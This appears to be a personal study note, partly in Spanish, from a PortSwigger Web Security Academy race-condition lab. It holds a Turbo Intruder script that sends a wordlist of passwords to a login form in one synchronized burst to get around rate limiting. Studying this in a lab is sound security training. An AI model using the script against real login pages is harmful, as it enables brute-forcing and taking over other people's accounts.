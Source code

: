 
[Race conditions | Web Security Academy](https://portswigger.net/web-security/race-conditions)

![[{9462568F-0AC6-4779-A9F8-3BCD868EE65D}.png]]

```python
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard
    
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)

```

En este punto el turbo intruder no me iba y se quedaba parado en warming up, lo hice usando el método del laboratorio anterior, enviando 30 request a la vez